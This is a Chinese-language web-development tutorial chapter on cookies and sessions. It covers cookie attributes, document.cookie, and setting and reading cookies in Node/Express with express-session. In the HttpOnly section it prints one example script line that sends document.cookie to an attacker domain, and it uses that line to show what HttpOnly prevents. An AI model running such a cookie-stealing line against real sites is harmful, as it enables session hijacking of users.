# 第11章 会话保持


## 概述

Cookie 是服务器保存在浏览器的一小段文本信息，每个 Cookie 的大小一般不能超过4KB。浏览器每次向服务器发出请求，就会自动附上这段信息。

Cookie 主要用来分辨两个请求是否来自同一个浏览器，以及用来保存一些状态信息。它的常用场合有以下一些。

- 对话（session）管理：保存登录、购物车等需要记录的信息。
- 个性化：保存用户的偏好，比如网页的字体大小、背景色等等。
- 追踪：记录和分析用户行为。

有些开发者使用 Cookie 作为客户端储存。这样做虽然可行，但是并不推荐，因为 Cookie 的设计目标并不是这个，它的容量很小（4KB），缺乏数据操作接口，而且会影响性能。客户端储存应该使用 Web storage API 和 IndexedDB。

Cookie 包含以下几方面的信息。

- Cookie 的名字
- Cookie 的值（真正的数据写在这里面）
- 到期时间
- 所属域名（默认是当前域名）
- 生效的路径（默认是当前网址）

举例来说，用户访问网址`www.example.com`，服务器在浏览器写入一个 Cookie。这个 Cookie 就会包含`www.example.com`这个域名，以及根路径`/`。这意味着，这个 Cookie 对该域名的根路径和它的所有子路径都有效。如果路径设为`/forums`，那么这个 Cookie 只有在访问`www.example.com/forums`及其子路径时才有效。以后，浏览器一旦访问这个路径，浏览器就会附上这段 Cookie 发送给服务器。

浏览器可以设置不接受 Cookie，也可以设置不向服务器发送 Cookie。`window.navigator.cookieEnabled`属性返回一个布尔值，表示浏览器是否打开 Cookie 功能。

```
// 浏览器是否打开 Cookie 功能
window.navigator.cookieEnabled // true
```

`document.cookie`属性返回当前网页的 Cookie。

```
// 当前网页的 Cookie
document.cookie
```

不同浏览器对 Cookie 数量和大小的限制，是不一样的。一般来说，单个域名设置的 Cookie 不应超过30个，每个 Cookie 的大小不能超过4KB。超过限制以后，Cookie 将被忽略，不会被设置。

浏览器的同源政策规定，两个网址只要域名相同和端口相同，就可以共享 Cookie（参见《同源政策》一章）。注意，这里不要求协议相同。也就是说，`http://example.com`设置的 Cookie，可以被`https://example.com`读取。


## Cookie 与 HTTP 协议

Cookie 由 HTTP 协议生成，也主要是供 HTTP 协议使用。

### HTTP 回应：Cookie 的生成

服务器如果希望在浏览器保存 Cookie，就要在 HTTP 回应的头信息里面，放置一个`Set-Cookie`字段。

```
Set-Cookie:foo=bar
```

上面代码会在浏览器保存一个名为`foo`的 Cookie，它的值为`bar`。

HTTP 回应可以包含多个`Set-Cookie`字段，即在浏览器生成多个 Cookie。下面是一个例子。

```
HTTP/1.0 200 OK
Content-type: text/html
Set-Cookie: yummy_cookie=choco
Set-Cookie: tasty_cookie=strawberry

[page content]
```

除了 Cookie 的值，`Set-Cookie`字段还可以附加 Cookie 的属性。

```
Set-Cookie: <cookie-name>=<cookie-value>; Expires=<date>
Set-Cookie: <cookie-name>=<cookie-value>; Max-Age=<non-zero-digit>
Set-Cookie: <cookie-name>=<cookie-value>; Domain=<domain-value>
Set-Cookie: <cookie-name>=<cookie-value>; Path=<path-value>
Set-Cookie: <cookie-name>=<cookie-value>; Secure
Set-Cookie: <cookie-name>=<cookie-value>; HttpOnly
```

上面的几个属性的含义，将在后文解释。

一个`Set-Cookie`字段里面，可以同时包括多个属性，没有次序的要求。

```
Set-Cookie: <cookie-name>=<cookie-value>; Domain=<domain-value>; Secure; HttpOnly
```

下面是一个例子。

```
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
```

如果服务器想改变一个早先设置的 Cookie，必须同时满足四个条件：Cookie 的`key`、`domain`、`path`和`secure`都匹配。举例来说，如果原始的 Cookie 是用如下的`Set-Cookie`设置的。

```
Set-Cookie: key1=value1; domain=example.com; path=/blog
```

改变上面这个 Cookie 的值，就必须使用同样的`Set-Cookie`。

```
Set-Cookie: key1=value2; domain=example.com; path=/blog
```

只要有一个属性不同，就会生成一个全新的 Cookie，而不是替换掉原来那个 Cookie。

```
Set-Cookie: key1=value2; domain=example.com; path=/
```

上面的命令设置了一个全新的同名 Cookie，但是`path`属性不一样。下一次访问`example.com/blog`的时候，浏览器将向服务器发送两个同名的 Cookie。

```
Cookie: key1=value1; key1=value2
```

上面代码的两个 Cookie 是同名的，匹配越精确的 Cookie 排在越前面。


### HTTP 请求：Cookie 的发送

浏览器向服务器发送 HTTP 请求时，每个请求都会带上相应的 Cookie。也就是说，把服务器早前保存在浏览器的这段信息，再发回服务器。这时要使用 HTTP 头信息的`Cookie`字段。

```
Cookie: foo=bar
```

上面代码会向服务器发送名为`foo`的 Cookie，值为`bar`。

`Cookie`字段可以包含多个 Cookie，使用分号（`;`）分隔。

```
Cookie: name=value; name2=value2; name3=value3
```

下面是一个例子。

```
GET /sample_page.html HTTP/1.1
Host: www.example.org
Cookie: yummy_cookie=choco; tasty_cookie=strawberry
```

服务器收到浏览器发来的 Cookie 时，有两点是无法知道的。

- Cookie 的各种属性，比如何时过期。
- 哪个域名设置的 Cookie，到底是一级域名设的，还是某一个二级域名设的。


## Cookie 的属性

### Expires，Max-Age

`Expires`属性指定一个具体的到期时间，到了指定时间以后，浏览器就不再保留这个 Cookie。它的值是 UTC 格式，可以使用`Date.prototype.toUTCString()`进行格式转换。

```
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;
```

如果不设置该属性，或者设为`null`，Cookie 只在当前会话（session）有效，浏览器窗口一旦关闭，当前 Session 结束，该 Cookie 就会被删除。另外，浏览器根据本地时间，决定 Cookie 是否过期，由于本地时间是不精确的，所以没有办法保证 Cookie 一定会在服务器指定的时间过期。

`Max-Age`属性指定从现在开始 Cookie 存在的秒数，比如`60 * 60 * 24 * 365`（即一年）。过了这个时间以后，浏览器就不再保留这个 Cookie。

如果同时指定了`Expires`和`Max-Age`，那么`Max-Age`的值将优先生效。

如果`Set-Cookie`字段没有指定`Expires`或`Max-Age`属性，那么这个 Cookie 就是 Session Cookie，即它只在本次对话存在，一旦用户关闭浏览器，浏览器就不会再保留这个 Cookie。

### Domain，Path

`Domain`属性指定浏览器发出 HTTP 请求时，哪些域名要附带这个 Cookie。如果没有指定该属性，浏览器会默认将其设为当前域名，这时子域名将不会附带这个 Cookie。比如，`example.com`不设置 Cookie 的`domain`属性，那么`sub.example.com`将不会附带这个 Cookie。如果指定了`domain`属性，那么子域名也会附带这个 Cookie。如果服务器指定的域名不属于当前域名，浏览器会拒绝这个 Cookie。

`Path`属性指定浏览器发出 HTTP 请求时，哪些路径要附带这个 Cookie。只要浏览器发现，`Path`属性是 HTTP 请求路径的开头一部分，就会在头信息里面带上这个 Cookie。比如，`PATH`属性是`/`，那么请求`/docs`路径也会包含该 Cookie。当然，前提是域名必须一致。


### Secure，HttpOnly

`Secure`属性指定浏览器只有在加密协议 HTTPS 下，才能将这个 Cookie 发送到服务器。另一方面，如果当前协议是 HTTP，浏览器会自动忽略服务器发来的`Secure`属性。该属性只是一个开关，不需要指定值。如果通信是 HTTPS 协议，该开关自动打开。

`HttpOnly`属性指定该 Cookie 无法通过 JavaScript 脚本拿到，主要是`document.cookie`属性、`XMLHttpRequest`对象和 Request API 都拿不到该属性。这样就防止了该 Cookie 被脚本读到，只有浏览器发出 HTTP 请求时，才会带上该 Cookie。

```
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

上面是跨站点载入的一个恶意脚本的代码，能够将当前网页的 Cookie 发往第三方服务器。如果设置了一个 Cookie 的`HttpOnly`属性，上面代码就不会读到该 Cookie。


## 在浏览器中操作 Cookie

### document.cookie

`document.cookie`属性用于读写当前网页的 Cookie。

读取的时候，它会返回当前网页的所有 Cookie，前提是该 Cookie 不能有`HTTPOnly`属性。

```
document.cookie // "foo=bar;baz=bar"
```

上面代码从`document.cookie`一次性读出两个 Cookie，它们之间使用分号分隔。必须手动还原，才能取出每一个 Cookie 的值。

```
var cookies = document.cookie.split(';');

for (var i = 0; i < cookies.length; i++) {
  console.log(cookies[i]);
}
// foo=bar
// baz=bar
```

`document.cookie`属性是可写的，可以通过它为当前网站添加 Cookie。

```
document.cookie = 'fontSize=14';
```

写入的时候，Cookie 的值必须写成`key=value`的形式。注意，等号两边不能有空格。另外，写入 Cookie 的时候，必须对分号、逗号和空格进行转义（它们都不允许作为 Cookie 的值），这可以用`encodeURIComponent`方法达到。

但是，`document.cookie`一次只能写入一个 Cookie，而且写入并不是覆盖，而是添加。

```
document.cookie = 'test1=hello';
document.cookie = 'test2=world';
document.cookie
// test1=hello;test2=world
```

`document.cookie`读写行为的差异（一次可以读出全部 Cookie，但是只能写入一个 Cookie），与 HTTP 协议的 Cookie 通信格式有关。浏览器向服务器发送 Cookie 的时候，`Cookie`字段是使用一行将所有 Cookie 全部发送；服务器向浏览器设置 Cookie 的时候，`Set-Cookie`字段是一行设置一个 Cookie。

写入 Cookie 的时候，可以一起写入 Cookie 的属性。

```
document.cookie = "foo=bar; expires=Fri, 31 Dec 2020 23:59:59 GMT";
```

上面代码中，写入 Cookie 的时候，同时设置了`expires`属性。属性值的等号两边，也是不能有空格的。

各个属性的写入注意点如下。

- `path`属性必须为绝对路径，默认为当前路径。
- `domain`属性值必须是当前发送 Cookie 的域名的一部分。比如，当前域名是`example.com`，就不能将其设为`foo.com`。该属性默认为当前的一级域名（不含二级域名）。
- `max-age`属性的值为秒数。
- `expires`属性的值为 UTC 格式，可以使用`Date.prototype.toUTCString()`进行日期格式转换。

`document.cookie`写入 Cookie 的例子如下。

```
document.cookie = 'fontSize=14; '
  + 'expires=' + someDate.toGMTString() + '; '
  + 'path=/subdirectory; '
  + 'domain=*.example.com';
```

Cookie 的属性一旦设置完成，就没有办法读取这些属性的值。

删除一个现存 Cookie 的唯一方法，是设置它的`expires`属性为一个过去的日期。

```
document.cookie = 'fontSize=;expires=Thu, 01-Jan-1970 00:00:01 GMT';
```

上面代码中，名为`fontSize`的 Cookie 的值为空，过期时间设为1970年1月1月零点，就等同于删除了这个 Cookie。


### js-cookie

> https://github.com/js-cookie/js-cookie


## 在 Node 中操作 Cookie

### 设置cookie

- 核心： ==cookie是随着响应头返回给浏览器的==
- 设置cookie的核心思想： 使用 res.setHeader 或者 writeHeader 将cookie信息设置在响应头中
- cookie设置格式：key=value;expires=time
  - key: cookie的名称
  - value： 名称对应的值
  - expires： 有效期

```js
//1. 使用 setHeader 方法
res.setHeader('set-cookie', 'id=101');                   //设置单个cookie
res.setHeader('set-cookie', ['id=101', 'name=zs']);      //设置多个cookie

//2. 使用 writeHeader 方法
res.writeHeader(200, {
    'content-type': 'text/html;charset=utf-8',
    'set-cookie': ['type=10', 'name=my']
})；

//3. 使用 set 方法，该方法是express封装的方法
res.set({'set-cookie':['goodsName=xiaomi 6', 'goodsPrice=3999']})；

//4. 设置cookie时，指定有效期
//注意：要使用UTC时间，使用 toUTCString()方法转换
//设置有效期为 1小时
const expiresTime = new Date(Date.now() + 3600000).toUTCString();
res.set({'set-cookie':['goodsName=xiaomi 6;expires=' + expiresTime, 'goodsPrice=3999']})
```


1) 使用 setHeader 设置cookie




打开浏览器运行











注意: 使用 setHeader 设置cookie时，只能使用一次，如果反复使用，后面会覆盖前面。


2) 一次性设置多个cookie







3) 使用 writeHeader 来设置cookie




###  读取cookie

当网站已经给浏览器设置好cookie之后，浏览器再次请求网站的路由时，就会将cookie信息随请求头一起发送给服务器




核心： req.headers.cookie 中




所以： req.headers.cookie = 'id=10; name=ls; goodsName=xiaomi 6; goodsPrice=3999'

目标:  

   'id=10; name=ls; goodsName=xiaomi 6; goodsPrice=3999' 转为对象形式

   {id:10, name:"ls", goodsName:"xiaomi 6"; goodsPrice:3999}


```js
//node提供了系统模块 querystring 能够帮助我们将cookie字符串拆分为对象
const qs = require('querystring');
const obj = qs.parse('id=10001;name=zs', ';', '=');
console.log(obj);   // {id:10001, name:"zs"}
```

req.url     req.method     req.headers





### cookie有效期

- 设置了expires则有效期到expires指定的时间
- 未设置expires则关闭浏览器cookie即消失





```js
//一天
new Date（Date.now() + 3600000 * 24）;

//一周
new Date（Date.now() + 3600000 * 24 * 7）;
```


## Session

###  session介绍

- 因为cookie是保存在客户端的数据，不够安全，所以出现了session。
- session会将数据保存到服务器端（保存在文件、内存服务器或数据表中），安全性就可以得到保证。


###  设置/读取session

express设置session时，需要使用第三方模块 --- express-session

```shell
npm i express-session
```


使用步骤：

1) 加载 express-session 模块

2) 将session注册为中间件

3) 使用req.session对象设置/读取session

```js
//1. 加载 express-session 模块
const session = require('express-session');
//2. 配置项
const obj = {
    secret: '4ey32erfyf3fgpg',   //加密字符串。 使用该字符串来加密session数据，自定义
    resave: false,               //强制保存session即使它并没有变化
    saveUninitialized: false     //强制将未初始化的session存储。当新建了一个session且未
    							 //设定属性或值时，它就处于未初始化状态。
};
//3. 注册为express-session中间件
app.use(session(obj));

//4. 使用 req.session.属性 = 值  方式来设置session
app.get('/sets', (req, res) => {
    req.session.isLogin = true;
    req.session.userInfo = {user_id:10001, user_name:"zs"};
    //注意：一定要将数据发回给浏览器，否则session无法生效
    res.send('设置session');
});

//设置好之后，req.session中的结构
req.session = {
    isLogin: true,
    userInfo: {user_id:10001, user_name:"zs"}
}
```


### session有效期

- 当浏览器关闭后，session消失
- express-session会将session保存在内存中，每次重启服务器时即使没有关闭浏览器session也会消失


###  删除session

核心： req.session.destroy()    销毁所有session




###  session 的有效范围

在一个网站中设置了session，则整个网站都能找到这个session


## Cookie 和 Session 的原理

###  cookie原理

1) 浏览器第一次访问带有cookie设置的路由时，服务器会将cookie信息通过响应头返回给浏览器

2) 之后浏览器每次访问服务器时都会将cookie信息通过请求头发送给服务器


### session原理




1) 浏览器第一次访问带有session设置的路由时，服务器会自动产生一个sessionId（一个很长的随机字符串），该sessionId有两个作用

   ① 随着cookie返回给浏览器，保存在浏览器中   （==相当于一把钥匙==）

   ② 在服务器开辟一块内存并以该sessionId命名，将数据保存在该内存中 （==相当于一个箱子==）


2) 浏览器之后每一次访问服务器时，sessionId都会随着请求头发送给服务器，服务器就能根据sessionId


## 参考资料

- https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Cookies